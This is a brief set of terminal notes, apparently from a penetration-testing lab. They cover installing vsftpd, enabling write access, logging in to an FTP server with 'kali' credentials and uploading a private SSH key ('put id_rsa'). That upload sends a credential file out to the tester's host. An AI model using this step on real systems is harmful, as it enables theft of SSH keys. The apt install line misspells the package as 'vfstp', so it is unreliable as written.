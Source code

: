 ftp server
```
sudo apt update
sudo apt install vfstp
```

setting
```
sudo vim /etc/vsftpd.conf

# Uncomment this to enable any form of FTP write command.
write_enable=YES   <---この項目のコメントアウト#を除去して有効化
```

start ftp server
```
sudo systemctl start vsftpd
```

connect to ftp server
```
ftp 192.168.45.167
kali
kali
```

file upload
```
put id_rsa
```